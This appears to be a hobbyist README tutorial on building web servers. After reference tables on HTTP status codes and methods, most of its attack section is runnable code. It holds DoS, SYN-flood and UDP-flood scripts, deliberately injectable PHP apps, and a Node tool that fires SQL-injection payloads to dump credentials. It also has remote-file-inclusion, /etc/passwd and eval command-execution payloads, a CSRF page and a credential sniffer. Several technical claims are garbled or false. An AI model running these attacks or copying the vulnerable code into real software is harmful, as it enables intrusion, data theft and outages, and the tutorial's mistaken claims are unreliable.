

# server-law
How to build a server

# HTTP vs HTTPS
http or Hypertext Transfer Protocol: is a transmition based protacal
https is Secure Hypertext Transfer Protocol: is a  transmition based protacal witch is secured by encryption
> today http nd https sites can be exacly the same, and actualy https sites can be less secure than http ones as codes become lazzy 



# read & write
> save and secure servers follow similar rules to local file rw rules. This means that as a backend engineer you need to limit access to and from users.
> if you give a user the ability to write to a server you must give them access to do so. Often the most simple networking attacks happen because there is a vulnerability which allows for coders to write to a read-only server.
> you must have dedicated read and write ports, which will decrease total server load, and overhead time, while also making better and faster routing.

## static
A static site is a site which can be read from without needing express permission to do so. As an example, government sites are often static, because they have a server managing only redirects.

Static servers can use cookie fishing as well as web-workers to validate a computer; however this does not yet constitute as a dynamic page.
> on a static page you will handle heavy reading and potential writing to a server.
> static servers are often written in non-redirect-ish languages like PHP.
> while most devs hate PHP it offers the best of both languages, allowing you to create HTML sites with non-complex servers. PHP also offers some scalability, for large reading purposes.

## dynamic
A dynamic page is a page which allows for reading as well as writing to a server. In terms of HTTP, dynamic pages use POST, PUT, DELETE, and PATCH requests.

Dynamic pages allow for the introduction of HTML forms; however a page is not solely dynamic because they have forms.

> on a dynamic page there is content which can only be accessed with credentials. Sites such as Facebook, Twitter, and PayPal are examples of early dynamic sites.
> Dynamic sites can be hosted on a number of different programming languages. Large companies will use a mix of languages to help make dynamic sites more scalable.

### dynamic code languages
| Feature                  | Python | Java | Node | PHP |
|--------------------------|--------|------|------|-----|
| Simple to read and write |        | X    |      |     |
| Allows for templating    |        | X    |      | X   |
| Scalable                 |        |      |      |     |
| Routing in site          |        | X    |      | X   |
| static vs non-static     | X      | X    | X    |     |
| Follow file              |        |      |      | X   |

> this table is not a complete difference list, but it shows some of the differences in languages and how you use them to make servers.
> I personally use Node, as it makes scaling up easy, and has some built-in securities that you natively lose in other languages.

## HTTP
HTTP is the language that routers use to connect devices to the World Wide Web (WWW) and allow for users around the world to connect.
When you build a server you are effectively building a high-level version of HTTP which serves both HTML and the routing instructions in one place.

### status
When building a dynamic site you must understand status codes. Status codes are the equivalent of error/warning/success messages when coding.
There are common ranges and uncommon codes which are globally recognized as different types. These ranges are:

1. 100 - 199 (info relay)
2. 200 - 299 (potential server success or location existence)
3. 300 - 399 (warning/redirections and limited access)
4. 400 - 499 (errors relating to location or no access)
5. 500 - 599 (errors from a server or permanent no access)

#### 100

| Code | Description                                                                                                                                                                                                                        | Type                |
|------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|---------------------|
| 100  | This interim response indicates that the client should continue the request or ignore the response if the request is already finished.                                                                                             | Continue            |
| 101  | This code is sent in response to an Upgrade request header from the client and indicates the protocol the server is switching to.                                                                                                  | Switching Protocols |
| 102  | This code was used in WebDAV contexts to indicate that a request has been received by the server, but no status was available at the time of the response.                                                                         | Processing          |
| 103  | This status code is primarily intended to be used with the Link header, letting the user agent start preloading resources while the server prepares a response or preconnect to an origin from which the page will need resources. | Early Hints         |

#### 200

| Code | Description                                                                                                                                                                           | Type                          |
|------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------|
| 200  | The request succeeded. The result and meaning of "success" depends on the HTTP method.                                                                                                | OK                            |
| 201  | The request succeeded, and a new resource was created as a result. This is typically the response sent after POST requests, or some PUT requests.                                     | Created                       |
| 202  | The request has been received but not yet acted upon. It is non-committal, meaning that there is no way for the client to later send a similar request to see if it is still pending. | Accepted                      |
| 203  | This response code means the returned metadata is not exactly the same as is available from the origin server. This is used when a proxy modifies the response.                       | Non-Authoritative Information |
| 204  | There is no content to send for this request, but the headers may be useful. The user-agent may update its cached headers for this resource.                                          | No Content                    |
| 205  | This response code tells the user-agent to reset the document view, like clearing a form or refreshing the page.                                                                      | Reset Content                 |
| 206  | This response code is used when a client requested only part of a resource using the Range header.                                                                                    | Partial Content               |
| 207  | This response code is used to convey information about multiple resources for methods such as WebDAV's batch operations.                                                              | Multi-Status (WebDAV)         |
| 226  | The server has fulfilled a GET request for the resource, and the response is a representation of the result of one or more instance-manipulations applied to the current instance.    | IM Used (HTTP Delta Encoding) |

#### 300

| Code | Description                                                                                                                                                                | Type               |
|------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|--------------------|
| 300  | The request has more than one possible response. The user-agent or user should choose one of them.                                                                         | Multiple Choices   |
| 301  | The URL of the requested resource has been changed permanently. The new URL is given in the response.                                                                      | Moved Permanently  |
| 302  | This response code means that the URI of requested resource has been changed temporarily. Further changes in the URI might be made in the future.                          | Found              |
| 303  | The server sent this response to direct the client to get the requested resource at another URI with a GET request.                                                        | See Other          |
| 304  | This is used for caching purposes. It tells the client that the response has not been modified, so the client can continue to use the same cached version of the response. | Not Modified       |
| 307  | The server sends this response to direct the client to get the requested resource at another URI with the same method that was used in the prior request.                  | Temporary Redirect |
| 308  | This means that the resource is now permanently located at another URI, specified by the Location: HTTP Response header.                                                   | Permanent Redirect |

#### 400

| Code | Description                                                                                                                                                                    | Type                          |
|------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------|
| 400  | The server cannot or will not process the request due to something that is perceived to be a client error.                                                                     | Bad Request                   |
| 401  | Authentication is required and has failed or has not yet been provided.                                                                                                        | Unauthorized                  |
| 402  | This response code is reserved for future use. It was originally created for digital payment systems, but is rarely used today.                                                | Payment Required              |
| 403  | The client does not have access rights to the content; that is, it is unauthorized, so the server is refusing to give the requested resource.                                  | Forbidden                     |
| 404  | The server can not find the requested resource. In the browser, this means the URL is not recognized.                                                                          | Not Found                     |
| 405  | The request method is known by the server but is not supported by the target resource.                                                                                         | Method Not Allowed            |
| 406  | This response is sent when the web server, after performing server-driven content negotiation, doesn't find any content that conforms to the criteria given by the user agent. | Not Acceptable                |
| 407  | This is similar to 401 but authentication is needed to be done by a proxy.                                                                                                     | Proxy Authentication Required |
| 408  | This response is sent on an idle connection by some servers, even without any previous request by the client.                                                                  | Request Timeout               |
| 409  | This response is sent when a request conflicts with the current state of the server.                                                                                           | Conflict                      |
| 410  | This response is sent when the requested content has been permanently deleted from server, with no forwarding address.                                                         | Gone                          |
| 411  | The server rejected the request because the Content-Length header field is not defined and the server requires it.                                                             | Length Required               |
| 412  | The client has indicated preconditions in its headers which the server does not meet.                                                                                          | Precondition Failed           |
| 413  | The request entity is larger than limits defined by server.                                                                                                                    | Payload Too Large             |
| 414  | The URI requested by the client is longer than the server is willing to interpret.                                                                                             | URI Too Long                  |
| 415  | The media format of the requested data is not supported by the server, so the server is rejecting the request.                                                                 | Unsupported Media Type        |
| 416  | The range specified by the Range header field in the request cannot be fulfilled.                                                                                              | Range Not Satisfiable         |
| 417  | This response code means the expectation indicated by the Expect request header field cannot be met by the server.                                                             | Expectation Failed            |
| 418  | The server refuses the attempt to brew coffee with a teapot.                                                                                                                   | I'm a teapot                  |
| 429  | The user has sent too many requests in a given amount of time ("rate limiting").                                                                                               | Too Many Requests             |

#### 500

| Code | Description                                                                                                                                                                                                        | Type                            |
|------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|---------------------------------|
| 500  | The server has encountered a situation it doesn't know how to handle.                                                                                                                                              | Internal Server Error           |
| 501  | The request method is not supported by the server and cannot be handled.                                                                                                                                           | Not Implemented                 |
| 502  | This error response means that the server, while working as a gateway to get a response needed to handle the request, got an invalid response.                                                                     | Bad Gateway                     |
| 503  | The server is not ready to handle the request. Common causes are a server that is down for maintenance or that is overloaded.                                                                                      | Service Unavailable             |
| 504  | This error response is given when the server is acting as a gateway and cannot get a response in time.                                                                                                             | Gateway Timeout                 |
| 505  | The HTTP version used in the request is not supported by the server.                                                                                                                                               | HTTP Version Not Supported      |
| 506  | The server has an internal configuration error: the chosen variant resource is configured to engage in transparent content negotiation itself, and is therefore not a proper end point in the negotiation process. | Variant Also Negotiates         |
| 507  | The method could not be performed on the resource because the server is unable to store the representation needed to successfully complete the request.                                                            | Insufficient Storage (WebDAV)   |
| 508  | The server detected an infinite loop while processing the request.                                                                                                                                                 | Loop Detected (WebDAV)          |
| 510  | Further extensions to the request are required for the server to fulfill it.                                                                                                                                       | Not Extended                    |
| 511  | The client needs to authenticate to gain network access.                                                                                                                                                           | Network Authentication Required |

> as a note http allows you to change the message/descrption of an error; however if you are builiding an api this is not recomended as it can have unanticipted affects on the server, and users requesting

## HTTP Methods

HTTP methods define the types of actions that can be performed on resources. Understanding these methods is crucial for building RESTful APIs and web services.

| Method  | Description                                                                                                                                   | Access Level | Form-compatible |
|---------|-----------------------------------------------------------------------------------------------------------------------------------------------|--------------|-----------------|
| GET     | Requests a representation of the specified resource. These requests should only retrieve data and have no other effect.                       | Read         | Yes             |
| POST    | Submits data to be processed to a specified resource. The data is included in the body of the request. Often used for creating new resources. | Write        | Yes             |
| PUT     | Replaces all current representations of the target resource with the request payload. Used to update existing resources.                      | Write        | No*             |
| DELETE  | Deletes the specified resource.                                                                                                               | Write        | No*             |
| HEAD    | Similar to GET, but transfers the status line and header section only (no response body).                                                     | Read         | No              |
| OPTIONS | Describes the communication options for the target resource. Often used for CORS preflight requests.                                          | Read         | No              |
| PATCH   | Applies partial modifications to a resource. Unlike PUT, which replaces the entire resource.                                                  | Write        | No*             |
| CONNECT | Establishes a tunnel to the server identified by the target resource. Often used for SSL tunneling.                                           | Special      | No              |
| TRACE   | Performs a message loop-back test along the path to the target resource. Primarily used for debugging.                                        | Special      | No              |

> *Note: While PUT, DELETE, and PATCH are not directly compatible with HTML forms (which only natively support GET and POST), modern web applications often use JavaScript to issue these requests. Additionally, form methods can be overridden using the _method parameter with frameworks like Express.js.
> *Note: Most servers only use GET, POST, PUT, DELETE as their HTTP methods. SSL, FTP will use CONNECT, OPTIONS, and potentially TRACE. SMTP and POP servers use different protocols entirely.

# Coding
Often coders will start coding both front end and backend code together; however, this leads to horrible code, and heavy re-use.
The back end of a website is usually code which directs a user to points predefined by the server; while, the front end is a "physical" location which users interact with via calls HTTP Methods to the backend.
A GUI or app follow similar rules, allowing for a seamless interaction between the two (backend via server calls) and (front end via a "physical" window for users to interact with)
Almost every coding language offers HTTP/HTTPS protocols for either sites or applications.

For app design the common coding languages are Swift, Objective-C, Kotlin, and Java as they allow for the creation of integrated system interfaces
For site design there are a whole host of templating, pre-processors, and HTML-like languages.


> In Node you can use EJS, a JavaScript-like framework which allows rendering of static content in a seemingly dynamic way
Node also allows for PHP-lite, as well as a whole host of some other frameworks
In Kotlin, RHTML is a common templating language as it has simple integration
In Java you have limited templates outside of Maven or Gradle architectures

> For solely frontend web usage use:
* React
* Next.js
* Vue
* etc...

> These are languages in on themselves, allowing for front end creation in real time

> For backend we are limited in frameworks:

* For Python we use Django
* In Node we can use Express or HTTP
* In Java we use Spring Boot
* In PHP we use Laravel
* In Ruby we use Rails
* In Go we use Gin or Echo


### Why
so why is it that we seperate all of the frontend, backend, and app desighn? 
This is due to security reasons. If your server and website touch (as in they are one in the same) users can directly acsess your servers code.
*Note* the only eexseption to this is php, witch forces the mixing of toutes to file witch witchout extea code would allow hackers to acsess sensitive data.

when building a save to acsess site for users you must hae multible dedicated locations
1. most programes seperate this into many section 
   1. backend
      1. routes
      2. server
      3. security
      3. databse
   2. frontend
      1. page
      2. fetching
      3. polling?
      4. sessions?
      5. databse?
      6. memeroy que*
   3. apps/gui
      1. language spacific fetchign protocall
      2. local vs global server
      3. window/frame integration
      4. package management
      5. frame by frame integration (on login is it save to progress)
      
> by following this simple use case, you can make simple servers witch can view and modify servers


## building good vs bad servers
the concept of a good vs bad server relates to a servers ability to be penatrated by outside influences. 
later on i will talk about DDOs, DOS, sql injuction, and more, but basicly if any of those thingngs can happen to your sereve it is bad
when buildig apis we will see how the integrqation of web based tokens (barers) can prefent attacks.
We will also look at how encryping sessins while ok, dose not garnetee server evecency or security. 

#### bad

##### server attacks
via a whole slue of langages we can attack servers.
*Note* this section is educational

###### DOS and DDOS
A dos attack is where a programmer flouds a server with the intention of reciving a [400 error code](#400), effectively stopping that serves. DDos attaces are the same thing, but are disptrabuted, alloing the attacks to happen from arround theworld. 
DDos attacs are much harder to preven has trafic could come from anyware, making dedicated server prefention dificult. In addition DDOs attackes are often done by infectiong millions of computers with malware. For this project i will not show how to build this.
using js (DOS)
```node

// Basic DoS attack in Node.js
// This infinitely sends requests to a target without waiting for responses
while (true) {
    fetch("https://target-server.com").then(res => {
        console.log("Request sent");
    }).catch(err => {
        console.log("Error, retrying...");
    });
}
```
using node.js (DOS)
``` node
// More sophisticated version using concurrent requests
// This creates multiple concurrent connections, potentially overwhelming the server
const axios = require('axios');

const targetUrl = "https://target-server.com";
const concurrentRequests = 100;
const intervalMs = 10;

function sendRequest() {
    axios.get(targetUrl)
        .catch(error => console.log("Request failed, continuing..."));
}

// Launch multiple requests in short intervals
setInterval(() => {
    for (let i = 0; i < concurrentRequests; i++) {
        sendRequest();
    }
}, intervalMs);

```
> DOS attacks are valid ways to stress test your server, but make sure you understand the implactions on youre server when running them.

###### sql injections
as a note this is specific to servers with [integrated use](#building-good-vs-bad-servers).
Before we talk about injections you must understand about payloads. Payloads are sets of instructions witch a coptuer will follow, to attempt to attack. 
As an example of a payload coders will often use c,c++, or rust (They are super fast) to produce password cracking payload


> PHP Application Vulnerable to SQL Injection

> This code demonstrates a classic SQL injection vulnerability. 
> Here's why this application is vulnerable:
Unsanitized Input: The application takes user input directly from the URL parameter user_id without any validation or sanitization.
Direct Insertion into SQL Query: The code directly concatenates this input into the SQL query string.
To exploit this vulnerability, an attacker could input values like:
1 OR 1=1 - This would return all users in the database instead of just one
1; DROP TABLE users -- - This could delete the entire users table
1 UNION SELECT 1,database(),user(),4 -- - This could reveal database information
For educational purposes, I included a simple HTML form to test different inputs and some example attack vectors.
To fix this vulnerability, you would need to use prepared statements or properly sanitize the input. Would you like me to show a secure version of this code as well?

> php serve witch is rive for sql injection
```php
<?php
// Database configuration
$host = "localhost";
$username = "db_user";
$password = "db_password";
$database = "example_db";

// Connect to database
$conn = mysqli_connect($host, $username, $password, $database);

// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}

// Handle route for user data retrieval (VULNERABLE to SQL injection)
if (isset($_GET['user_id'])) {
    $userId = $_GET['user_id']; // User input is not sanitized
    
    // Vulnerable query - directly inserting user input into SQL
    $query = "SELECT * FROM users WHERE id = " . $userId;
    
    // Execute query
    $result = mysqli_query($conn, $query);
    
    if ($result) {
        echo "<h2>User Information</h2>";
        echo "<table border='1'>";
        echo "<tr><th>ID</th><th>Username</th><th>Email</th></tr>";
        
        while ($row = mysqli_fetch_assoc($result)) {
            echo "<tr>";
            echo "<td>" . $row['id'] . "</td>";
            echo "<td>" . $row['username'] . "</td>";
            echo "<td>" . $row['email'] . "</td>";
            echo "</tr>";
        }
        
        echo "</table>";
    } else {
        echo "Error executing query: " . mysqli_error($conn);
    }
}
?>
```

> this script explpoits this by using the [packet](#sql-injections)
```node 
const axios = require('axios');
const cheerio = require('cheerio');

// Target vulnerable PHP application URL
const targetUrl = 'http://example.com/vulnerable_app.php';

// SQL Injection payloads to demonstrate different attacks
const sqlInjectionPayloads = [
  {
    name: "Return all users",
    payload: "1 OR 1=1",
    description: "This bypasses the WHERE clause condition to return all users in the database."
  },
  {
    name: "Database information",
    payload: "1 UNION SELECT 1,database(),user(),version()",
    description: "This extracts the database name, current user, and database version."
  },
  {
    name: "Table information",
    payload: "1 UNION SELECT 1,table_name,table_schema,4 FROM information_schema.tables WHERE table_schema NOT IN ('mysql','information_schema','performance_schema')",
    description: "This retrieves table names from the current database schema."
  },
  {
    name: "Column information",
    payload: "1 UNION SELECT 1,column_name,data_type,table_name FROM information_schema.columns WHERE table_name='users'",
    description: "This retrieves column names and data types from the users table."
  },
  {
    name: "Extract credentials",
    payload: "1 UNION SELECT id,username,password,email FROM users",
    description: "This attempts to extract usernames and password hashes."
  },
  {
    name: "Destructive attack",
    payload: "1; UPDATE users SET password='hacked' WHERE id=1",
    description: "This attempts to change the admin password. (Commented out for safety)"
  }
];

// Function to parse and display the results from the vulnerable page
async function parseResults(html) {
  const $ = cheerio.load(html);
  const tableData = [];
  
  // Extract table headers
  const headers = [];
  $('table tr th').each((i, el) => {
    headers.push($(el).text().trim());
  });
  
  // Extract table rows
  $('table tr').each((i, row) => {
    if (i > 0) { // Skip header row
      const rowData = {};
      $(row).find('td').each((j, cell) => {
        rowData[headers[j] || `Column${j}`] = $(cell).text().trim();
      });
      if (Object.keys(rowData).length > 0) {
        tableData.push(rowData);
      }
    }
  });
  
  return tableData;
}

// Execute SQL injection attacks
async function executeSqlInjectionAttacks() {
  console.log('Starting SQL Injection Attack Demonstration');
  console.log('===========================================');
  
  for (const attack of sqlInjectionPayloads) {
    console.log(`\n[*] Executing: ${attack.name}`);
    console.log(`[*] Payload: ${attack.payload}`);
    console.log(`[*] Description: ${attack.description}`);
    
    try {
      const response = await axios.get(`${targetUrl}?user_id=${encodeURIComponent(attack.payload)}`);
      
      if (response.status === 200) {
        console.log('[+] Attack successful!');
        
        // Parse and display the extracted data
        const results = await parseResults(response.data);
        if (results.length > 0) {
          console.log('[+] Extracted data:');
          console.table(results);
        } else {
          console.log('[!] No data returned or could not parse the response.');
          // Display raw response for debugging
          console.log('[+] Raw HTML snippet:');
          console.log(response.data.slice(0, 500) + '...');
        }
      } else {
        console.log(`[!] Request failed with status code: ${response.status}`);
      }
    } catch (error) {
      console.error(`[!] Error during attack: ${error.message}`);
      if (error.response) {
        console.log(`[!] Server response: ${error.response.status} - ${error.response.statusText}`);
      }
    }
    
    console.log('-------------------------------------------');
  }
}

// Execute basic blind SQL injection test
async function testBlindSqlInjection() {
  console.log('\n[*] Testing for blind SQL injection vulnerabilities');
  
  const testCases = [
    { payload: "1 AND 1=1", expectedSuccess: true },
    { payload: "1 AND 1=2", expectedSuccess: false },
    { payload: "1 AND (SELECT SLEEP(2))", timing: true }
  ];
  
  for (const test of testCases) {
    console.log(`[*] Testing payload: ${test.payload}`);
    
    try {
      const startTime = Date.now();
      const response = await axios.get(`${targetUrl}?user_id=${encodeURIComponent(test.payload)}`);
      const elapsedTime = Date.now() - startTime;
      
      if (test.timing) {
        console.log(`[+] Response time: ${elapsedTime}ms`);
        if (elapsedTime > 2000) {
          console.log('[+] Time-based blind injection appears to work!');
        } else {
          console.log('[!] Time-based blind injection test inconclusive.');
        }
      } else {
        const hasData = response.data.includes('User Information') && !response.data.includes('Error executing query');
        console.log(`[+] Response indicates success: ${hasData}`);
        if ((test.expectedSuccess && hasData) || (!test.expectedSuccess && !hasData)) {
          console.log('[+] Boolean-based blind injection appears to work!');
        }
      }
    } catch (error) {
      console.error(`[!] Error: ${error.message}`);
    }
  }
}

// Main function
async function main() {
  console.log('SQL Injection Attack Demonstration Tool');
  console.log('======================================');
  console.log(`Target: ${targetUrl}`);
  console.log('--------------------------------------');
  
  // Run the attacks
  await executeSqlInjectionAttacks();
  
  // Test for blind SQL injection
  await testBlindSqlInjection();
  
  console.log('\n[*] Attack demonstration completed');
}

// Run the main function
main().catch(error => {
  console.error('Fatal error:', error);
});
```

> The concept behind a SQL attack is simple, as it solly relays on the concept of server safety. Most SQL drivers work use insert vars :<name> or query strings (?, <value>). Both of these are safer than simple string contacting, like in the example above.
> SQL injections are one of the eysest atacks to prevent as even using string concatenation in many languges reenforces the idea of non-static-typing

###### php injections
as a not php injections work under the concept of self-form redirecting. As a note of safety, php injections only mostly will mork on php-based sites. If you are working in php your site will probably be viable to a php injection attack, but below i will show symple ways to prevent this. 

> self-form redirecting is a way in php so submit a form to the same page, witch redices server call back times. This is because a self-form dose does not have to redirect (there is http direct but its same-site no-follow). 
> this php will create a form witch is un-save
```injectablephp
<?php
// WARNING: This is an intentionally vulnerable script for educational purposes
// DO NOT use this in production environments

// Vulnerable search function that takes user input directly
$searchQuery = isset($_GET['query']) ? $_GET['query'] : '';

// Insecure way to handle file inclusion - VULNERABLE TO PHP INJECTION
if (isset($_GET['page'])) {
    // Direct inclusion of user input without validation
    // This is a common vulnerability that allows attackers to include arbitrary files
    include($_GET['page']);
}

// Insecure database query example (SQL injection vulnerability)
if (!empty($searchQuery)) {
    // Connect to database (placeholder)
    $db = new mysqli('localhost', 'username', 'password', 'database');
    
    // Vulnerable query construction - no prepared statements
    $query = "SELECT * FROM products WHERE name LIKE '%" . $searchQuery . "%'";
    
    // Execute query
    $result = $db->query($query);
    
    // Display results (simplified)
    echo "<h2>Search Results:</h2>";
    echo "<p>You searched for: " . $searchQuery . "</p>";
    
    // Close connection
    $db->close();
}

// Dangerous eval() function that executes PHP code from user input
if (isset($_GET['calculate'])) {
    // EXTREMELY DANGEROUS - allows direct PHP code execution
    echo "Result: " . eval($_GET['calculate']);
}

// Vulnerable form for demonstration
?>

<!DOCTYPE html>
<html>
<head>
    <title>Vulnerable PHP Application</title>
</head>
<body>
    <h1>Vulnerable PHP Application</h1>
    
    <!-- Search Form (SQL Injection vector) -->
    <form method="GET" action="">
        <h3>Search Products:</h3>
        <input type="text" name="query" value="<?php echo $searchQuery; ?>">
        <input type="submit" value="Search">
    </form>
    
    <!-- Page Inclusion Form (PHP Injection vector) -->
    <form method="GET" action="">
        <h3>View Page:</h3>
        <input type="text" name="page" placeholder="Enter page name">
        <input type="submit" value="View">
    </form>
    
    <!-- Calculator Form (PHP Code Execution vector) -->
    <form method="GET" action="">
        <h3>Calculator:</h3>
        <input type="text" name="calculate" placeholder="Enter calculation">
        <input type="submit" value="Calculate">
    </form>
</body>
</html>
```
> this script shows how to inject php commonds via a url 
```javascript
// EDUCATIONAL PURPOSES ONLY
// This script demonstrates how an attacker could exploit the vulnerabilities
// in the previously shown PHP code

// Function to demonstrate XSS attack through the search query parameter
function demonstrateXSSAttack() {
  // Create a malicious search query that injects JavaScript
  const maliciousQuery = '<script>alert("XSS Attack! Your cookies: " + document.cookie)</script>';
  
  // Construct the URL with the malicious query
  const xssUrl = `http://example.com/vulnerable.php?query=${encodeURIComponent(maliciousQuery)}`;
  
  console.log("XSS Attack URL:");
  console.log(xssUrl);
  console.log("This would inject JavaScript that executes in the victim's browser");
}

// Function to demonstrate PHP inclusion attack
function demonstrateFileInclusionAttack() {
  // Remote file inclusion attack
  const remoteFileUrl = "http://example.com/vulnerable.php?page=http://attacker-server.com/malicious-code.php";
  
  // Local file inclusion attack (path traversal)
  const localFileUrl = "http://example.com/vulnerable.php?page=../../../../etc/passwd";
  
  console.log("Remote File Inclusion Attack URL:");
  console.log(remoteFileUrl);
  console.log("This would include a malicious PHP file from the attacker's server");
  
  console.log("\nLocal File Inclusion Attack URL:");
  console.log(localFileUrl);
  console.log("This could expose sensitive server files");
}

// Function to demonstrate PHP code execution attack using eval()
function demonstrateCodeExecutionAttack() {
  // Command execution payload
  const commandPayload = 'system("ls -la /var/www"); //';
  
  // Data exfiltration payload
  const dataPayload = 'file_get_contents("/etc/passwd"); //';
  
  // Construct the URLs with the malicious payloads
  const commandUrl = `http://example.com/vulnerable.php?calculate=${encodeURIComponent(commandPayload)}`;
  const dataUrl = `http://example.com/vulnerable.php?calculate=${encodeURIComponent(dataPayload)}`;
  
  console.log("Command Execution Attack URL:");
  console.log(commandUrl);
  console.log("This would execute system commands on the server");
  
  console.log("\nData Exfiltration Attack URL:");
  console.log(dataUrl);
  console.log("This would read sensitive files from the server");
}

// Function to demonstrate SQL Injection attack
function demonstrateSQLInjectionAttack() {
  // Basic SQL injection to retrieve all products
  const basicInjection = "' OR '1'='1";
  
  // More dangerous SQL injection to drop a table
  const destructiveInjection = "'; DROP TABLE users; --";
  
  // Construct the URLs with the SQL injection payloads
  const basicUrl = `http://example.com/vulnerable.php?query=${encodeURIComponent(basicInjection)}`;
  const destructiveUrl = `http://example.com/vulnerable.php?query=${encodeURIComponent(destructiveInjection)}`;
  
  console.log("Basic SQL Injection Attack URL:");
  console.log(basicUrl);
  console.log("This would bypass the search filter and return all products");
  
  console.log("\nDestructive SQL Injection Attack URL:");
  console.log(destructiveUrl);
  console.log("This could delete database tables");
}

// Demonstrate all attacks
console.log("==== VULNERABILITY DEMONSTRATION (EDUCATIONAL ONLY) ====");
demonstrateXSSAttack();
console.log("\n-----------------------------------------\n");
demonstrateFileInclusionAttack();
console.log("\n-----------------------------------------\n");
demonstrateCodeExecutionAttack();
console.log("\n-----------------------------------------\n");
demonstrateSQLInjectionAttack();
```
> THe concept of a php injection is simalar to a sql injection; hoever php injections can result in a [500](#500) type error in your server, or even worse, result in the leakage of user sensitive data.

#### Session Attacks

Session attacks target the mechanisms that web applications use to maintain state between HTTP requests. Since HTTP is stateless by design, websites use cookies, tokens, or session IDs to remember authenticated users. These mechanisms become prime targets for attackers.

##### Session Hijacking

Session hijacking occurs when an attacker steals a valid session token to impersonate the legitimate user:

```javascript
// Example of code vulnerable to session hijacking
const express = require('express');
const session = require('express-session');
const app = express();

// Vulnerable session configuration
app.use(session({
  secret: 'my-fixed-secret',  // Weak, hardcoded secret
  resave: false,
  saveUninitialized: true,
  cookie: { 
    secure: false,       // Not using HTTPS
    httpOnly: false,     // Accessible via JavaScript
    sameSite: 'none'     // Allows cross-site requests
  }
}));

// Storing sensitive data directly in the session
app.post('/login', (req, res) => {
  // Authenticate user (simplified)
  if(req.body.username === 'admin' && req.body.password === 'password123') {
    req.session.isAuthenticated = true;
    req.session.username = req.body.username;
    req.session.role = 'admin';
    req.session.userId = 12345;
    
    res.redirect('/dashboard');
  } else {
    res.redirect('/login');
  }
});
```

##### Session Fixation

Session fixation attacks occur when an attacker forces a user to use a known session ID:

```php
<?php
// Vulnerable PHP code that accepts session IDs from URL parameters
// DO NOT USE THIS IN PRODUCTION
if (isset($_GET['PHPSESSID'])) {
    session_id($_GET['PHPSESSID']);
}
session_start();

// Later in the code...
if ($validLogin) {
    $_SESSION['authenticated'] = true;
    $_SESSION['username'] = $username;
}
?>
```

##### Cross-Site Request Forgery (CSRF)

CSRF attacks trick authenticated users into executing unwanted actions:

```html
<!-- Malicious page that performs a CSRF attack -->
<html>
  <body>
    <h1>Win a Free Prize!</h1>
    <!-- Hidden form that submits automatically -->
    <form id="csrf-form" action="https://vulnerable-bank.com/transfer" method="POST">
      <input type="hidden" name="recipient" value="attacker-account" />
      <input type="hidden" name="amount" value="1000" />
      <input type="submit" value="Claim Your Prize!" />
    </form>
    <script>
      // Auto-submit when page loads
      document.getElementById("csrf-form").submit();
    </script>
  </body>
</html>
```

##### Session Replay Attacks

These occur when valid authentication tokens or session information is captured and "replayed" later:

```javascript
// Vulnerable authentication endpoint that doesn't use nonce or timestamps
app.post('/api/authenticate', (req, res) => {
  const token = generateAuthToken(req.body.username);
  
  // Token doesn't expire and has no timestamp validation
  res.json({ token });
});

// Later in the code...
app.post('/api/transfer', authenticateToken, (req, res) => {
  // Perform money transfer based on token authentication
  // No check for request replay or token freshness
});
```

#### Socket Packet Attacks

Socket packet attacks target the network communication layer, exploiting vulnerabilities in how applications handle socket connections and packets.

##### WebSocket Hijacking

WebSockets provide full-duplex communication channels over a single TCP connection. They're vulnerable when implemented with poor security:

```javascript
// Vulnerable WebSocket server implementation
const WebSocket = require('ws');
const wss = new WebSocket.Server({ port: 8080 });

// No origin verification
wss.on('connection', function connection(ws) {
  // No authentication check before establishing connection
  
  ws.on('message', function incoming(message) {
    // No input validation or sanitization
    const data = JSON.parse(message); // Vulnerable to JSON injection
    
    // No rate limiting - vulnerable to flooding
    if (data.type === 'broadcast') {
      // Blindly broadcasts to all clients
      wss.clients.forEach(function each(client) {
        client.send(message);
      });
    }
  });
});
```

##### TCP SYN Flood Attack

This attack exploits the TCP handshake process by sending many SYN packets without completing the connection:

```python
# Educational example - DO NOT USE MALICIOUSLY
import socket
import random
from scapy.all import IP, TCP, send

# Target information
target_ip = "10.0.0.1"
target_port = 80

# SYN flood function
def syn_flood():
    for _ in range(4096):
        # Create spoofed IP
        source_ip = f"{random.randint(1, 254)}.{random.randint(1, 254)}.{random.randint(1, 254)}.{random.randint(1, 254)}"
        source_port = random.randint(1024, 65535)
        
        # Create SYN packet
        ip = IP(src=source_ip, dst=target_ip)
        tcp = TCP(sport=source_port, dport=target_port, flags="S", seq=random.randint(1000, 9000))
        
        # Send packet without completing handshake
        send(ip/tcp, verbose=0)
```

##### UDP Flood Attack

Similar to TCP SYN flood but using UDP protocols:

```python
# Educational example - DO NOT USE MALICIOUSLY
import socket
import random
import time

# Target information
target_ip = "10.0.0.1"
target_port = 53  # DNS port often used for amplification

# UDP flood function
def udp_flood():
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    
    # Generate random data
    bytes_data = random._urandom(1024)
    
    # Send continuous stream of packets
    while True:
        sock.sendto(bytes_data, (target_ip, target_port))
        time.sleep(0.001)  # Small delay to not overload local resources
```

##### Packet Sniffing

While not an attack itself, packet sniffing is often used as part of other attacks:

```javascript
// Node.js packet sniffing using pcap
const pcap = require('pcap');
const tcpTracker = new pcap.TCPTracker();

// Create packet capture session
const pcapSession = pcap.createSession('eth0', {
  filter: 'tcp port 80'
});

// Process each packet
pcapSession.on('packet', function (rawPacket) {
  const packet = pcap.decode.packet(rawPacket);
  tcpTracker.track_packet(packet);
});

// Listen for data on TCP streams
tcpTracker.on('session', function (session) {
  session.on('data', function (session, data) {
    // Look for sensitive information in cleartext HTTP
    if (data.toString().includes('password') || data.toString().includes('token')) {
      console.log('Potential sensitive data found:', data.toString());
    }
  });
});
```

## Good Server Practices

Now that we've examined common server vulnerabilities and attacks, let's explore best practices to build secure, efficient servers.

### Preventing DOS and DDOS Attacks

```javascript
// Express.js with rate limiting middleware
const express = require('express');
